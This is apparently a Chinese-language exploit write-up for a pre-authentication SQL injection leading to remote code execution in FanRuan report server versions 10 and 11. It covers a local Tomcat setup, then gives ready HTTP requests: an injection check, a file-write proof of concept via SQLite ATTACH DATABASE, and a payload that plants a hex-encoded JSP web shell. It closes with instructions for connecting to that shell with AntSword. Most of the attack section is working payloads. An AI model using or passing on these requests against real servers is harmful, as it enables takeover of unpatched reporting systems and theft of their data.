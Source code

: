# 帆软报表v10-11前台SQL漏洞RCE

## 环境搭建

从网上下v10 2024.7.23之前的版本，23号的更新补丁了

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407251921283.png)

安装好后，将`webapps`目录中 `webroot目录` 的复制到 `tomcat` 中的webapps目录中

接着启动运行 tomcat

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407251923118.png)


![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407251923659.png)

### tomcat

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407251924761.png)

接着运行 `apache-tomcat-8.5.87\bin\startup.bat` 就成功搭建环境了

第一次运行 先访问 `http://127.0.0.1:8080/webroot/decision`  要设置密码，默认内置和外置数据库

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407251926809.png)

## 报错解决

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252141517.png)

配置tomcat `server.xml` 添加 `relaxedQueryChars="[]|{}^&#x5c;&#x60;&quot;&lt;&gt;"`

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252143358.png)

## poc

```java
GET /webroot/decision/view/ReportServer?test=&n=${9*9} HTTP/1.1
Host: 127.0.0.1:8080
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252125236.png)


## 写文件poc

```java
GET /webroot/decision/view/ReportServer?test=&n=${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BFATTACH%20DATABASE%20%27..%2Fwebapps%2Fwebroot%2Fasd1.jsp%27%20as%20asd1%3B'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BFCREATE%20TABLE%20asd1.exp2%28data%20text%29%3B'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BFINSERT%20INTO%20asd1.exp2%28data%29%20VALUES%20%28%27123%27%29%3B'),1,1)} HTTP/1.1
Host: 127.0.0.1:8080

```
![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252013758.png)
![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252013019.png)

## 本地测试写马
### payload
```java
/webroot/decision/view/ReportServer?test=s&n=${__fr_locale__=sql('FRDemo',DECODE('﻿ATTACH DATABASE '../webapps/webroot/aaa.jsp' as gggggg;'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('﻿CREATE TABLE gggggg.exp2(data text);'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('﻿INSERT INTO gggggg.exp2(data) VALUES (x'247b27272e676574436c61737328292e666f724e616d6528706172616d2e61292e6e6577496e7374616e636528292e676574456e67696e6542794e616d6528276a7327292e6576616c28706172616d2e62297d');'),1,1)} 
```
![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252128382.png)
### 成功写入

```java
GET /webroot/decision/view/ReportServer?test=&n=/webroot/decision/view/ReportServer?test=s&n=${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BFATTACH%20DATABASE%20%27..%2Fwebapps%2Fwebroot%2Fhelp.jsp%27%20as%20teeeee%3B'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BFCREATE%20TABLE%20teeeee.exp2%28data%20text%29%3B'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BFINSERT%20INTO%20teeeee.exp2%28data%29%20VALUES%20%28x%27247b27272e676574436c61737328292e666f724e616d6528706172616d2e61292e6e6577496e7374616e636528292e676574456e67696e6542794e616d6528276a7327292e6576616c28706172616d2e62297d%27%29%3B'),1,1)} HTTP/1.1
Host: 127.0.0.1:8080

```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252149998.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252150063.png)

蚁剑进行连接，添加get参数?a=javax.script.ScriptEngineManager，蚁剑连接密码为b，连接类型选择JSPJS

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252150021.png)

## 参考
- https://y4tacker.github.io/2024/07/23/year/2024/7/%E6%9F%90%E8%BD%AFReport%E9%AB%98%E7%89%88%E6%9C%AC%E4%B8%AD%E5%88%A9%E7%94%A8%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%86%E8%8A%82/
- https://mp.weixin.qq.com/s/AliftiLevjz5HB9uL0DOqQ